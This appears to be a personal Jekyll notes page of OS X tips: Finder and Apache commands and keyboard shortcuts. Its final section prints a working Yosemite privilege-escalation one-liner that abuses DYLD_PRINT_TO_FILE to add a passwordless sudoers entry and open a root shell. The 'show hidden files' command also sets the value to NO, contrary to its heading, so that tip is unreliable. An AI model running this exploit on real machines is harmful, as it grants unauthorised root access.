 ```yaml
---
layout: default
title: OS X
---
```


## Always show hidden files: ##

{% highlight bash %}
defaults write com.apple.finder AppleShowAllFiles NO
{% endhighlight %}

## Start Apache on system startup: ##

{% highlight bash %}
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
{% endhighlight %}

## Keyboard shortcuts: ##

{% highlight bash %}
DEL = FN + BACKSPACE
PAGEUP/PAGEDOWN = FN + UP/DOWN
END = FN + RIGHT
HOME = FN + LEFT
MINIMIZE CURRENT WINDOW = CMD + M
SCREEN SHOT (PART) = CMD + SHIFT + 4
SCREEN SHOT (DESKTOP) = CMD + SHIFT + 3
CLOSE ACTIVE WINDOW = CMD + W
EXIT PROGRAM = CMD + Q
{% endhighlight %}

## Yosemite exploit for root access: ##

{% highlight bash %}
echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp; sudo -s
{% endhighlight %}
